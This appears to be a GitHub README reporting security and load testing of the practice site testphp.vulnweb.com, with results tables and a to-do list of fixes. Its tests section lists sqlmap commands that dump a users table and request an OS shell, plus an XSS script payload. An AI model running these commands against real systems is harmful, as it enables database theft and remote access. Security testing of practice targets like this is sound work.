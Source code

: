 # 🔥 Advanced Threat Detection & Performance Testing

## 🚀 Overview
This repository focuses on **functional, performance, and security testing** for web applications. It includes a **detailed analysis** of `http://testphp.vulnweb.com`, covering vulnerabilities, performance bottlenecks, and security risks.

---

## 🔎 1. Functional & Security Testing
### 🔹 Tested Pages
1. `/login.php` → User authentication page
2. `/search.php` → Search functionality
3. `/admin.php` → Admin panel access
4. `/cart.php` → Shopping cart manipulation

### ✅ Functional Testing Results
| **Test Case** | **Page** | **Expected Result** | **Actual Result** | **Status** |
|--------------|---------|--------------------|------------------|------------|
| **Valid Login** | `/login.php` | Successful login | ✅ Success | ✅ Pass |
| **Invalid Login** | `/login.php` | Error message displayed | ✅ Error message | ✅ Pass |
| **SQL Injection** | `/login.php` | Should be blocked | ❌ Bypassed login | ❌ Fail |
| **XSS Attack** | `/search.php` | Should prevent script execution | ❌ Alert triggered | ❌ Fail |
| **Admin Access** | `/admin.php` | Should be restricted | ❌ Unauthenticated access | ❌ Fail |

### 🔓 Security Issues Identified
| **Vulnerability** | **Impact** | **Status** |
|------------------|-----------|------------|
| **SQL Injection (SQLi)** | Unauthorized login access | ❌ Vulnerable |
| **Cross-Site Scripting (XSS)** | Executes malicious scripts | ❌ Vulnerable |
| **Admin Panel Access** | No authentication required | ❌ Vulnerable |
| **Weak Session Management** | Open to session hijacking | ❌ Vulnerable |
| **Parameter Tampering** | Modify cart price | ❌ Vulnerable |

---

## ⚡ 2. Performance Testing
Performance testing was conducted using **K6 Load Testing Framework**.

### 📌 Load Testing Results (100 Users)
| **Metric** | **Value** | **Status** |
|-----------|----------|------------|
| Avg Response Time | **470ms** | ✅ Pass |
| Peak Response Time | **1100ms** | ❌ Fail |
| Failure Rate | **5.8%** | ❌ Fail |

### 📌 Stress Testing Results
| **Users** | **Avg Response Time** | **Errors (%)** | **Status** |
|-----------|----------------------|---------------|------------|
| 100       | 470ms                | 5.8%          | ✅ Stable  |
| 200       | 780ms                | 12.2%         | ⚠️ Degrading  |
| 300       | 1350ms               | 24.5%         | ❌ Unstable  |
| 400       | 2600ms               | 35%           | ❌ Crashed  |

---

## 🛠 3. Tests
```
### [1] Run Security Tests (SQLi, XSS)
#### SQL Injection Testing (SQLmap)
```

```bash
sqlmap -u "http://testphp.vulnweb.com/login.php" --dbs --batch --risk=3 --level=5

# Additional SQL Injection Commands
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs  
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables  
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --dump  
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs --random-agent --tamper=space2comment  
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --current-user
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --os-shell
```

#### XSS Testing (Burp Suite)
1. Open **Burp Suite**.
2. Go to **Proxy → Intercept**.
3. Enter payload:  
   ```html
   <script>alert('XSS')</script>
   ```
4. Forward the request and observe execution.

---

## 📊 5. Output Results
![Image](https://github.com/user-attachments/assets/a447f3ef-c048-4734-b719-081e44b4eaac)

![Image](https://github.com/user-attachments/assets/f369aac4-eec2-44e9-a161-b7ea1bf31416)

![Image](https://github.com/user-attachments/assets/211ca92d-7dac-4f74-829e-041ab01fdeaa)

---

## 🔧 6. Security & Performance Fixes (To-Do)
✅ **Security Fixes**
1. **Fix SQL Injection** – Implement parameterized queries and input validation.
2. **Prevent XSS Attacks** – Escape & sanitize user inputs.
3. **Secure Admin Panel** – Implement authentication & access control.
4. **Strengthen Session Management** – Enforce session expiration.

✅ **Performance Fixes**
1. **Optimize Database Queries** – Use indexing and query caching.
2. **Enable Caching & Compression** – Use Gzip & CDN for faster response times.
3. **Optimize Server Load Handling** – Implement load balancing.


---

## 📃 7. License
This project is licensed under the **MIT License**.

---
